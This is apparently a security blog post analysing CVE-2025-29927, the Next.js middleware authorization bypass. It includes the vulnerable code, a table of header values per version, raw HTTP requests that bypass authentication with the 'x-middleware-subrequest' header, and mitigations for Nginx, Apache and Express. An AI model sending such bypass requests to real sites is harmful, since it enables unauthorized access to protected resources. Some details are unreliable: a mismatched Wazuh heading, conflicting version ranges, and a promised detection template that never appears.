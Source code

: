 ```yaml
---
id: 2
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
date: "Apil 16, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/nextjs_blog.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-24016](/assets/img/blog/nextjs_blog.png)

### CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

### Description
Next.js, an open-source web framework developed by Vercel, powers modern React-based applications with advanced features like server-side rendering and static site generation. Recently, a critical vulnerability (CVE-2025-29927) was uncovered, allowing attackers to bypass middleware-based authorization checks. This flaw was initially discovered and analyzed by Rachid Allam (zhero). In this post, we’ll dive into the technical details of the vulnerability, explore Rachid’s research, and craft a Nuclei template to help you detect this issue across your environment.

The vulnerability impacts Next.js middleware, a key feature often used to enforce authorization, rewrite paths, handle server-side redirects, and apply response headers like Content Security Policy (CSP).

By exploiting this flaw, an attacker can completely bypass middleware logic simply by adding a malicious `x-middleware-subrequest` HTTP header to their requests.


### Technical Breakdown

- **Affected Software**: Next.js  
- **Affected Versions**: 1.11.4 - 12.3.5, 13.5.9, 14.2.25, and 15.2.3  
- **CVSSv3.1 Score**: 9.1 (Critical)  
- **CVSSv3.1 Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`  
- **Affected Component**: Middleware  
- **Attack Vector**: Network  
- **Privileges Required**: Low (API Access)  
- **User Interaction**: None  
- **Scope**: Unchanged  

The vulnerability affects Next.js versions 11.1.4 through 13.5.6, as well as 14.x before 14.2.25 and 15.x before 15.2.3. The implications are severe for applications that depend on middleware for access control, as this can lead to unauthorized access to protected routes or resources—without authentication.

### Affected Component Analysis

In Next.js applications, middleware plays a critical role in handling tasks like authentication, logging, and security enforcement for all incoming requests. CVE-2025-29927 stems from how Next.js improperly processes the x-middleware-subrequest header internally.

Here's how the vulnerability works at the code level:javascript


```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  }
  continue;
}
```

The x-middleware-subrequest header is a special internal flag used by Next.js to signal that a request was generated within the framework itself specifically, as a subrequest triggered by middleware, not as a direct client request. This mechanism is essential for the proper functioning of Next.js features and helps prevent infinite middleware recursion by keeping track of internal calls.

![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_0.png)

However, this internal trust in the presence of the header introduces a serious flaw: attackers can craft requests that include this header, tricking Next.js into treating them as internal. As a result, middleware logic such as authentication checks can be completely bypassed.


### Exploitation Techniques

The method of exploitation slightly differs depending on the version of Next.js being used:

| **Next.js Version**       | **Middleware Naming/Location**                                | **Header Format (x-middleware-subrequest)**                                      |
|---------------------------|---------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Prior to 12.2**          | `_middleware.ts` in `pages` folder                            | `pages/_middleware`                                                              |
| **Nested Routes (Prior to 12.2)** | `_middleware.ts` in nested `pages` directories         | `pages/dashboard/_middleware`, `pages/dashboard/panel/_middleware`               |
| **12.2 and Later**         | `middleware.ts` (no underscore), not in `pages` folder        | `middleware`                                                                      |
| **12.2 and Later (with /src)** | `middleware.ts` inside `/src` directory                     | `src/middleware`                                                                 |
| **13.2.0 and Later**       | Same as 12.2+ but with recursion depth limit for middleware  | `middleware:middleware:middleware...` or `src/middleware:src/middleware...`      |


To illustrate the vulnerability, imagine a Next.js app with middleware that guards the `/protected` route by redirecting unauthorized users to `/login`.  
Normally request to `/protected` without proper authorization results in a redirect to `/login`.

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
Connection: keep-alive
```

**Response:**
```
HTTP/1.1 307 Temporary Redirect  
location: /  
Date: Wed, 16 Apr 2025 09:52:51 GMT  
Connection: keep-alive  
Keep-Alive: timeout=5  
Content-Length: 1  
/
```

An attacker can bypass this protection by sending a request with the appropriate header:

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
x-middleware-subrequest: middleware  
Connection: keep-alive
```

**Response:**
![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_1.png)

By including a specific header, the request bypasses the middleware’s authorization logic entirely and proceeds straight to /protected, giving the attacker unauthorized access to restricted content.


### Mitigation Strategies

1. **Upgrade to a Patched Version**
The most effective mitigation is to upgrade to a secure version of Next.js where this vulnerability has been fixed.

Patched versions:
- 12.3.5
- 13.5.9
- 14.2.25
- 15.2.3

Upgrading ensures the issue is resolved at the framework level without requiring manual workarounds.

If upgrading is not immediately feasible, apply the following temporary mitigations:

#### 2. Strip the Header at the Load Balancer

If your application is behind a load balancer (e.g., AWS ELB, Cloudflare), configure it to remove the `x-middleware-subrequest` header from all incoming traffic.

---

#### 3. Configure Web Server to Remove the Header

**Nginx**  
Add this to your server block to strip the header:

```nginx
proxy_set_header x-middleware-subrequest "";
```

**Apache (mod_headers)**  
Use this directive to unset the header:

```apache
RequestHeader unset x-middleware-subrequest
```

---

#### 4. Custom Server Middleware (e.g., Express)

If you're using a custom server with Express, strip the header before it reaches Next.js:

```javascript
app.use((req, res, next) => {
  delete req.headers['x-middleware-subrequest'];
  next();
});
```


### References

- [GitHub Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)  
- [Proof of Concept GitHub Repo](https://github.com/mhamzakhattak/CVE-2025-29927)
- [Next.js Middleware Documentation](https://nextjs.org/docs/app/building-your-application/routing/middleware)  
- [Original Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)  

---

